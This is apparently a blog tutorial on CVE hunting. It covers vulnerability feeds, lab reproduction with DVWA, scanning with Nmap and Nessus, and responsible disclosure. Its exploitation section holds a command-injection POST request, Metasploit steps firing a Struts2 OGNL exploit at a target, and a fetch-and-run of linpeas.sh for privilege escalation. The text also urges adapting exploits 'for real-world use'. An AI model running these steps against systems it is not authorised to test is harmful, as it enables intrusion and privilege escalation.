 ```yaml
---
title: "Real-Time CVE Hunting: Identifying and Exploiting Vulnerabilities"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, CVE hunting, vulnerability research, exploitation]
---
```


# Real-Time CVE Hunting: Identifying and Exploiting Vulnerabilities

Finding and exploiting vulnerabilities in real time is a critical skill in cybersecurity research and Capture The Flag (CTF) challenges. This guide walks through methodologies for discovering, analyzing, and exploiting newly disclosed Common Vulnerabilities and Exposures (CVEs) using real-time threat intelligence sources.

---

## **1. Understanding CVE Hunting**

### **What is CVE Hunting?**
CVE hunting is the process of actively searching for newly disclosed security vulnerabilities in software, hardware, or network components. This involves:
- Monitoring vulnerability databases and exploit repositories
- Reproducing CVEs in controlled environments
- Developing and testing exploits
- Reporting or responsibly disclosing new vulnerabilities

### **Key Sources for Real-Time CVE Monitoring**
- [NVD (National Vulnerability Database)](https://nvd.nist.gov/)
- [CVE Details](https://www.cvedetails.com/)
- [Exploit-DB](https://www.exploit-db.com/)
- [HackerOne & Bugcrowd Reports](https://hackerone.com/)
- [Twitter/X (Security Researchers)](https://twitter.com)
- [Google Project Zero](https://googleprojectzero.blogspot.com/)

---

## **2. Discovering and Analyzing CVEs**

### **Monitoring Live CVE Feeds**
Automate the retrieval of new CVEs with:
```bash
curl -s https://services.nvd.nist.gov/rest/json/cves/1.0 | jq .
```
Use `cve-search` for historical analysis:
```bash
git clone https://github.com/cve-search/cve-search.git
cd cve-search && python3 cve-search.py -s "Apache"
```

### **Reverse Engineering New CVEs**
Once a CVE is identified, analyze its impact using:
```bash
ghidra mybinary
``` 
For web-based CVEs, use Burp Suite to intercept requests and identify vulnerable parameters.

---

## **3. Exploiting CVEs in Real Time**

### **1. Reproducing CVEs in a Lab**
Set up an isolated environment with Docker or a VM:
```bash
docker run -d -p 8080:8080 vulnerable/web-dvwa
```
Find proof-of-concept (PoC) exploits on Exploit-DB:
```bash
searchsploit CVE-2024-XXXX
```

### **2. Automating Exploit Development**
Modify existing exploits for real-world use with Python:
```python
import requests
url = "http://target.com/vuln"
payload = {"cmd": "whoami"}
requests.post(url, data=payload)
```
Use Metasploit for quick exploitation:
```bash
msfconsole -q
use exploit/multi/http/struts2_content_type_ognl
set RHOSTS target.com
exploit
```

### **3. Privilege Escalation Using CVEs**
After initial access, check for privilege escalation:
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh && ./linpeas.sh
```
Look for misconfigurations, weak permissions, and outdated software.

---

## **4. Automating CVE Detection**

### **1. Using Nmap for CVE Detection**
```bash
nmap --script vuln target.com
```
### **2. Nessus & OpenVAS for Large-Scale Scanning**
- Install Nessus:
```bash
curl -o Nessus.deb https://www.tenable.com/downloads/api/v1/public/pages/nessus/downloads/latest
```
- Start OpenVAS:
```bash
openvas-setup
```

---

## **5. Responsible Disclosure & Reporting**

### **1. Reporting to Vendor or CERT**
- Submit reports via official security channels.
- Use responsible disclosure policies.

### **2. Bug Bounty Platforms**
- HackerOne, Bugcrowd, and Intigriti provide reward programs for reporting vulnerabilities.

---

## **Conclusion**

Real-time CVE hunting is an essential skill for security researchers and CTF players. By monitoring vulnerability feeds, setting up exploit labs, and responsibly disclosing findings, security professionals can stay ahead of emerging threats.

🚀 Stay sharp, keep hunting, and contribute to a safer cyberspace!

---

💡 **Want more security insights?** Stay tuned for advanced exploit development techniques!

